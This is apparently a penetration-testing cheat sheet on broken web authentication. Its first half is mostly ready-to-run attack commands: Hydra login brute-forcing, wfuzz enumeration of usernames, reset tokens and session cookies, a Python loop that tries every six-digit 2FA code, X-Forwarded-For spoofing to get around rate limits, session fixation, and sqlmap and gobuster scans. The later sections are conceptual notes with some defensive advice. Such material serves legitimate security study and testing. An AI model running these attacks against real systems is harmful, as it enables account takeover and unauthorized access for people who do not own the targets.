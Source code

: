 # Broken Authentication

### User Enumeration

#### Using Nmap (Replace target.com and port with your target)

```bash
nmap -p <port> --script http-enum-users.nse target.com
```

#### Using Wfuzz (Replace USERNAME\_LIST with a wordlist)

```bash
wfuzz -c -z file,USERNAME_LIST -w target.com/login?username=FUZZ
```

### Brute-Forcing Passwords

#### Using Hydra (Replace username, password\_list, and target)

```bash
hydra -l username -P password_list target.com http-post-form "/login.php:username=^USER^&password=^PASS^:Invalid username or password"
```

#### Using Hashcat (For Offline Password Cracking)

```bash
hashcat -m <hash_type> <hash_file> <wordlist>
```

### Brute-Forcing Password Reset Tokens

#### Using Wfuzz (Replace TOKEN\_LIST)

```bash
wfuzz -c -z file,TOKEN_LIST target.com/reset?token=FUZZ
```

### Brute-Forcing 2FA Codes

#### Using a Custom Script (Python Example)

```python
import itertools
import requests

url = "https://target.com/2fa"
headers = {"Content-Type": "application/json"}

for code in itertools.product("0123456789", repeat=6):
    payload = {"otp": "".join(code)}
    response = requests.post(url, json=payload, headers=headers)
    if "success" in response.text:
        print("Valid 2FA Code Found:", "".join(code))
        break
```

### Bypassing Brute-Force Protection (X-Forwarded-For)

#### Using Curl (Modify Headers)

```bash
curl -H "X-Forwarded-For: 1.2.3.4" target.com/login
```

### Session Attacks

#### Brute-Forcing Cookies (Using Wfuzz, Very Time Consuming)

_(Replace COOKIE\_LIST)_

```bash
wfuzz -c -b "sessionid=FUZZ" target.com/protected_page -z file,COOKIE_LIST
```

#### Example of Session Fixation

**Attacker Sets Session ID:**

```bash
curl -b "sessionid=attacker_session_id" target.com
```

_Then coerces the victim to use that same session ID._

### Additional Examples

#### Nmap Scan

```bash
nmap -sV -sC target.com # Version and default scripts.
```

#### Directory Brute Force

```bash
gobuster dir -u target.com -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 100
```

#### SQLMap Scan

```bash
sqlmap -u "target.com/page.php?id=1" --dbs # Database Enumeration
```

#### Nikto Scan

```bash
nikto -h target.com
```

#### Burp Suite Intruder Attack for Fuzzing

_Burp Suite is a GUI tool but provides many command-line options._

### Categories of Authentication

#### Knowledge

* **Passwords, PINs, Security Questions.**
* Password complexity policies, password storage (hashing, salting), and password managers.

#### Ownership

* **ID Cards, TOTP (Time-based One-Time Password), Hardware Tokens.**
* The TOTP algorithm, U2F/FIDO2 keys, and smart cards.

#### Inherence

* **Biometric Authentication (Fingerprint, Facial Recognition, Iris Scan).**
* Accuracy and security of different biometric methods, vulnerabilities like spoofing.

### Brute-Force Attacks

#### User Enumeration

* Identifying valid usernames.
* Common techniques include response time analysis, error message analysis, and social engineering.

#### Brute-Forcing Passwords

* Trying multiple password combinations.
* Dictionary attacks, hybrid attacks, and rainbow table attacks. Tools like Hydra and Hashcat.

#### Brute-Forcing Password Reset Tokens

* Trying different reset token values.
* Weak or predictable token generation exploitation.

#### Brute-Forcing 2FA Codes

* Trying many 2FA code combinations.
* Time window vulnerabilities, rate limiting importance.

### Bypassing Brute-Force Protection

#### Rate Limit

* **X-Forwarded-For HTTP Header Manipulation.**
* Other header manipulations and distributed brute-force attacks.

#### CAPTCHAs

* Looking for CAPTCHA solutions in HTML code.
* CAPTCHA bypass techniques and machine learning for solving.

### Password Attacks

#### Default Credentials

* **Sources:** [CIRT.ne](https://www.cirt.net/passwords)t, [SecLists Default Credentials](https://github.com/danielmiessler/SecLists/tree/master/Passwords/Default-Credentials), [SCADA](https://github.com/scadastrangelove/SCADAPASS/tree/master).
* Changing default credentials immediately.

#### Vulnerable Password Reset

* **Issues:** Guessable security questions, username injection in reset requests.
* Importance of strong security questions and robust reset mechanisms.

### Authentication Bypasses

#### Accessing Protected Pages Directly

* Improper access control vulnerabilities.

#### Manipulating HTTP Parameters

* Parameter tampering and SQL injection.

### Session Attacks

#### Brute-Forcing Cookies with Insufficient Entropy

* Importance of cryptographically secure session ID generation.

#### Session Fixation

1. Attacker obtains a valid session identifier.
2. Attacker coerces the victim to use this session identifier (social engineering).
3. Victim authenticates to the vulnerable web application.
4. Attacker hijacks the victim's session.

* Prevention: Regenerating session IDs after login.

#### Improper Session Timeout

* Sessions should expire after an appropriate time interval.
* Best practices for session timeout management and secure session storage.

### Additional Considerations

* **MFA Implementation Flaws:** Weak MFA can lead to vulnerabilities.
* **WAF Bypasses:** Attackers may bypass WAFs to exploit authentication vulnerabilities.
* **OAuth/OpenID Connect Vulnerabilities:** Misconfigurations can lead to account takeover.
* **JWT Vulnerabilities:** Weak validation can result in security issues.
* **SSO Vulnerabilities:** Weak SSO implementations can compromise multiple applications.
* **Client-Side Vulnerabilities:** Storing sensitive data locally, client-side validation bypasses.

